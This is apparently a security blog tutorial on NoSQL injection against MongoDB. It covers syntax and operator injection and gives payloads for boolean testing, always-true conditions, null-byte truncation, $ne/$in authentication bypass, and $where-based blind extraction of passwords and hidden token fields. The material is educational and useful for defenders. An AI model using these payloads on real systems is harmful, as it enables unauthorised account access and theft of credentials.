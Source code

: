 ```yaml
---
title: NoSQL Injection Techniques and Exploits
date: 2024-12-20
categories: [Web Security, Nosql Injection]
tags: [nosql, injection, mongodb, security, web, fuzzing, exploitation]
author: spideyy
comments: true
description: Exploring NoSQL injection techniques, including syntax injection and operator abuse , A complete Guide For Beginner and a Refresher 
---
```


### Types
- syntax injection
- operator injection
### NoSQL Syntax Injection

- **Definition:** Similar to SQL injection,  involves breaking the query syntax and exploiting vulnerabilities.

#### Detecting Syntax Injection in MongoDB

1. Test each input by submitting fuzz strings and special characters.

#### Fuzz Strings

```
'"`{ ;$Foo} $Foo \xYZ '%00
```

```
' " \ ; { } ( )
```

#### Testing

**Example:**

`https://insecure-website.com/product/lookup?category=fizzy`

- The server handles the query as:
    
    ```javascript
    this.category == 'fizzy'
    ```
    
- Fuzz the input using the _fuzz strings_ and analyze the response.
    
- Determine which characters (e.g., single or double quotes) impact the query.
    

**Examples:**

```javascript
this.category == '''
this.category == '\''
```

#### Boolean Influence Testing

**False Output:**

```
https://insecure-website.com/product/lookup?category=fizzy'+&&+0+&&+'x
```

- No categories are displayed since the query evaluates to false.

**True Output:**

```
https://insecure-website.com/product/lookup?category=fizzy'+&&+1+&&+'x
```

- The `fizzy` category is displayed, indicating boolean influence.

#### Overriding Existing Conditions

- Use the `||` (OR) operator to override conditions, ensuring the query always returns true:

```
https://insecure-website.com/product/lookup?category=fizzy'||'1'=='1
```

- Server query becomes:

```javascript
this.category == 'fizzy'||'1'=='1'
```

- All categories are displayed.

#### Null Character Injection

- MongoDB may ignore all characters after a null character (`\u0000`).

**Example:**

If the server query is:

```javascript
this.category == 'fizzy' && this.released == 1
```

After injecting a null character:

```javascript
this.category == 'fizzy'\u0000' && this.released == 1
```

- Unreleased objects may be displayed.

---

### Operator Injection

- **Definition:** Abusing NoSQL operators like `$where`, `$ne`, `$in`, and `$regex` to exploit vulnerabilities.

#### Injecting into Query Operators

1. **Example Query:**

```json
{"username":"wiener"}
```

- Queries for username = `wiener`.

**Injection Example:**

```json
{"username":{"$ne":"invalid"}}
```

- Query becomes `username != invalid`, which returns all usernames except `invalid`.

2. Transforming input:

```
username=wiener becomes username[$ne]=invalid
```

3. Complex Query Example:

```json
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
```

- Fetches data if the username is one of `admin`, `administrator`, or `superadmin`, and the password is not empty.

#### Steps to Test:

1. Convert the request method from `GET` to `POST`.
2. Change the `Content-Type` header to `application/json`.
3. Add JSON to the message body.
4. Inject query operators into the JSON.

---

### Exfiltrating Data in MongoDB

**Example:**

```
https://insecure-website.com/user/lookup?username=admin
```

Server query:

```json
{"$where":"this.username == 'admin'"}
```

#### Payload Examples:

1. To check if the first character of the password is `a`:

```
admin' && this.password[0] == 'a' || 'a'=='b
```

2. To check if the password contains digits:

```
admin' && this.password.match(/\d/) || 'a'=='b
```

3. To find the password length using binary search:

```
administrator' && this.password.length < 30 || 'a'=='b
```

---

### Extracting Field Names, Lengths, and Values

**Example Query:**

```javascript
db.user.findOne(userInfo)

let userInfo = {
    "_id": "skjfskmjfsdf",
    "username": "carlos",
    "password": {
        "$ne": ""
    },
    "$where": "function(){ return 0;}"
}
```

#### Steps to Extract Information:

1. Check error messages:
    
    - **1:** Account Locked
    - **0:** Invalid
2. Find hidden field names and their lengths:
    

**Example Payloads:**

- Find hidden field name:

```javascript
"$where": "function(){ if(Object.keys(this)[0].match('_id')) return 1; else 0; }"
```

- Find hidden field name length:

```javascript
"$where": "function(){ if(Object.keys(this)[3].length == 1) return 1; else 0; }"
```

- Hidden field name `unlockToken`:

```javascript
"$where": "function(){ if(this.unlockToken.length == 1) return 1; else 0; }"
```

3. Determine value length and content:

- Length is 16:

```javascript
"$where": "function(){ if(this.unlockToken.length == 16) return 1; else 0; }"
```

- Check if value starts with `a`:

```javascript
"$where": "function(){ if(this.unlockToken.match(/^a/)) return 1; else 0; }"
```

- Check if value contains digits:

```javascript
"$where": "function(){ if(this.unlockToken.match(/\\d/)) return 1; else 0; }"
```

---